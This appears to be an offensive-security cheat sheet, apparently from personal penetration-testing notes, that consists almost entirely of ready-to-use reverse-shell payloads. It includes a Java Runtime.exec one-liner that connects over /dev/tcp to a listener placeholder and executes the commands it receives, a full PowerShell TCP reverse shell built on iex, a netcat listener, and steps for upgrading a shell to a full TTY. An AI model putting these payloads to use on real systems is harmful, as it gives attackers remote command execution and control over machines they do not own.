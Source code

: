 ## [[java]] reverse shell
```java
r = Runtime.getRuntime();p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<lhost>/<lport>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]);p.waitFor()
```

## [[Arsenal/Windows/powershell]] reverse shell
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<lhost>',<lport>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## windows listener autocompletion
```
rlwrap nc -nlvp <port>
```

## interactive reverse shell - and Ctrl+Z (1) 
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## interactive reverse shell - on host - and do fg (2)
```
stty raw -echo
```

## interactive reverse shell - on reverse (3)
```bash
reset
stty rows <ROWS> cols <COLS>
export TERM=xterm-256color
```
